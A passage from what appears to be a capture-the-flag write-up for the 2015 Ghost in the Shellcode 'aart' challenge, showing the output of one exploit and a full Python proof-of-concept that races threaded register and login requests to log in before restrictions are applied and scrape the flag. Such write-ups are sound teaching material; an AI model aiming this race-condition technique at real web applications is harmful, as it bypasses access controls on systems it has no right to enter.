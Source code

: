     login(data)

{% endhighlight %}

Executing that script will output the flag: 

    [*] Registered twice
    [x] fail
    [*] Registered twice
    [*] flag: 'this is a key'


## Exploit 3: Race Condition - Login before privileges inserted
Similar to Exploit 2, we can also try to login before the privileges are inserted, again exploiting the race condition. 
The following PoC script will do exactly that and output the flag if successful:

{% highlight python %}
#!/usr/bin/env python

import requests
import string
import re
import random
import threading


url_register = "http://aart.2015.ghostintheshellcode.com/register.php"
url_login = "http://aart.2015.ghostintheshellcode.com/login.php"

def register(data):
    requests.post(url_register, data=data)

def login(data):
    c = requests.post(url_login, data=data).content
    flag = re.findall(r"<h2>(.*)</h2>\s+<h2>", c, re.DOTALL)
    if len(flag) > 0 and not "restricted" in flag[0]:
        print "[*] flag: '" + flag[0] + "'"
    else:
        print "[x] fail"

while True:
    # Generate random username 
    username = ''.join(random.choice(string.ascii_letters) for _ in range(100))
    password = '123'
    
    # register and login
    data = { 'username' : username, 'password' : password }
    t1 = threading.Thread(target=register, args=(data,))
    t2 = threading.Thread(target=login, args=(data,))
    t1.start()
    t2.start()
    t1.join()
    t2.join()

{% endhighlight %}
